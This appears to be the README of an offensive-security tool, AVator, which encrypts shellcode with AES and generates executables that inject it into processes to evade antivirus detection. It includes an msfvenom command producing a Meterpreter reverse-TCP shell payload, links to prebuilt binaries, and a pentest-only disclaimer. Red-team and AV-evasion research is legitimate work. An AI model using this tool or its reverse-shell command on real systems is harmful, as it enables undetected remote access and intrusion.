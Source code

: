 
# AV|ator

AVator is a backdoor generator utility, which uses cryptographic and injection techniques in order to bypass AV detection. More specifically:
- It use AES encryption in order to encrypt a given shellcode 
- Generates an executable file which contains the encrypted payload
- The shellcode is decrypted and injected to the target system using various injection techniques 

[https://attack.mitre.org/techniques/T1055/]:

1. Portable executable injection which involves writing malicious code directly into the process (without a file on disk) then invoking execution with either additional code or by creating a remote thread. The displacement of the injected code introduces the additional requirement for functionality to remap memory references. Variations of this method such as reflective DLL injection (writing a self-mapping DLL into a process) and memory module (map DLL when writing into process) overcome the address relocation issue. 

2. Thread execution hijacking which involves injecting malicious code or the path to a DLL into a thread of a process. Similar to Process Hollowing, the thread must first be suspended.

#### Usage

The application has a form which consists of three main inputs (See screenshot bellow):

https://ibb.co/X24mnzW

1.	A text containing the encryption key used to encrypt the shellcode 
2.	A text containing the IV used for AES encryption 
3.	A text containing the shellcode 

The shellcode should be provided as a C# byte array. The default values contain shellcode that executes calc.exe (32bit). This example is provided as an indication of how the code should be formed (using msfvenom, this can be easily done with the -f csharp switch, e.g. msfvenom -p windows/meterpreter/reverse_tcp LHOST=X.X.X.X  LPORT=XXXX -f csharp). 

After filling the provided inputs and selecting the output path an executable is generated according to the chosen options. 

#### Installation

**Windows:**

Either compile the project or download the allready compiled executable from the following folder:

https://github.com/Ch0pin/AVIator/tree/master/Compiled%20Binaries

**Linux:**

Install Mono according to your linux distribution, download and run the binaries

e.g. in kali:

root@kali# apt install mono-devel 

root@kali# mono aviator.exe


#### Credits
To Damon Mohammadbagher for the encryption procedure

#### Disclaimer 

I developed this app in order to overcome the demanding challenges of the pentest procedure and this is the only way that the app should be used. Make sure that you have the required permission to use it against a system and never use it for illegal purposes. 
I would suggest to avoid testing the executables on solutions like virus total e.t.c. If you want to use the application for pentesting purposes I am sure you have already identified the AV used by your target, so go download a demo and make your testing offline. 

And please remember:

### DO NOT UPLOAD ANY SAMPLES TO VIRUS TOTAL 


